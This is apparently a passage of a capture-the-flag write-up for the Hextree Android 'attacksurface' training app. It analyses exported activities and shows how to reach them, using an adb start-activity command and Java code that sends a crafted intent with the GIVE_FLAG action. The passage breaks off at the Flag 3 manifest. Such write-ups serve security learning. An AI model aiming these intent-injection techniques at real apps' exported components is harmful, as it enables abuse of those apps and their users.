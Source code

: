 ADB:
```shell
adb shell am start-activity io.hextree.attacksurface/io.hextree.attacksurface.activities.Flag1Activity

```

### Flag 2
#### Code analysis
```xml
<activity
android:name="io.hextree.attacksurface.activities.Flag2Activity"
android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
   </intent-filter>
</activity>
```

Here the Filter shows that This activity listens for an **action string**: `io.hextree.action.GIVE_FLAG` and only with that an intent will be received

```Java
protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        String action = getIntent().getAction();
        if (action == null || !action.equals("io.hextree.action.GIVE_FLAG")) {
            return;
        }
        this.f.addTag(action);
        success(this);
    } 
```

The Intent is received by `getIntent()` method and action is read then stored by method `getAction()` in action string, Then a check to see if it's null (empty) or have a different flag.
if all are good and clear then `success()` is called;

#### Solution
set the flag but don't forget to set the correct Package and activity name

```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag2Activity"
)); 
EvilIntent.setAction("io.hextree.action.GIVE_FLAG");
startActivity(EvilIntent);  
```

### Flag 3
#### Code analysis
```xml
<activity
	android:name="io.hextree.attacksurface.activities.Flag3Activity"
    android:exported="true">
    <intent-filter>
        <action android:name="io.hextree.action.GIVE_FLAG"/>
        <data android:scheme="https"/>
    </intent-filter>
</activity>
```
